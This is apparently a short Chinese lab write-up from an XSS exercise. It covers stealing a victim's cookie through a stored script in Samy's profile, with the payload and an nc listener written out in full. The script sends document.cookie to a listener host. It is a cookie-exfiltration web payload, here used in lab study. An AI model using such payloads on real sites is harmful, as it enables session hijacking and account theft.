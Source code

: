# 2.1从受害者的机器上盗取 Cookie

首先以 Samy 的身份登录并打开个人简介进行编辑，在 Brief description 中

添加如下脚本：

```
<script>
document.write('<img src=http://localhost:5555?c=' + escape(document.cookie) + ' >');
</script>
```

![image-20240703184850837](img/image-20240703184850837.png)

随后使用 Alice 账号登录，点击 Samy 主页并使用 nc -l 5555 -v 进行监听，

观察到成功得到 Alice 的 cookie 信息，如下图：
